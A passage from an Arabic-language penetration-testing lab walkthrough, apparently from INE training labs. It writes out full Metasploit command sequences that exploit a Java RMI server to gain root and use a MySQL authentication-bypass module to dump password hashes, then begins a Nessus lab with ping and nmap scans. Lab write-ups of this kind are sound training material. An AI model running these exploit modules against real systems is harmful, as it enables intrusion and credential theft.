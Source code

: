 نشوف انه فعلا استغلينا التارقت الي قالت لنا Nessus انه فيه ثغرة RCE  

طيب الان يوم فحصنا بالـ NMAP scan حصلنا بورت 1099 اوبن وقالنا انه مصاب بالثغره وعطانا رابط الاستغلال خلونا نجرب الان نستغله  
```bash  
msfconsole -q  
search java_rmi  
use exploit/multi/misc/java_rmi_server  
show options  
set RHOSTS demo2.ine.local  
set LHOST 192.243.162.2  
set HTTPDELAY 20  
exploit  
getuid  
sysinfo  
```  

نشوف انه فعلا الثغرة صحيحة وتم الاستغلال وصرنا الـ ROOT  

خلونا الان نستغل ثغرة الـ SQLi  
طبعا طلعها لنا بالـ nmap حصلنا cve 2012  
خلونا نجرب الان الاستغلال  
```bash
msfconsole -q  
search mysql_authbypass  
use auxiliary/scanner/mysql/mysql_authbypass_hashdump  
show options  
set RHOSTS demo3.ine.local  
exploit  
```  

ونشوف انه فعلا تم الاستغلال وسوينا بايباس للـ  MySQL authentication وقدرنا ناخذ الهاشات  

الى هنا انتهى اللاب نشوف الي بعده  

---  

Nessus  
------|  

في هذا اللاب نفس الي قبله تقريبا معطينا ثلاث تارقت يبينا نفحصهم بالـ Nessus  

خلونا نشوف اول هل نقدر نرسلهم كلهم ولا لا خلونا نسوي بنق  
```bash  
ping -c3 demo.ine.local  
ping -c3 demossl.ine.local  
ping -c3 webserver.ine.local  
```  
نشوف انه كل التارقت نقدر نوصلهم بدون اي مشاكل حلو  

الان نبدا نسوي الـ Nmap scanning  
```bash
nmap -sS -sV demo.ine.local demossl.ine.local webserver.ine.local  
```  
نشوف انه فيه بورتات مفتوحه معينه على كل تارقت منهم  
```bash
1. demo.ine.local: Ports 80 (Apache) and 3306 (MySQL) are open.  
2. demossl.ine.local: Ports 22 (SSH) and 443 (NGINX) are open.  
3. webserver.ine.local: Port 80 (Apache) is open.   
```  
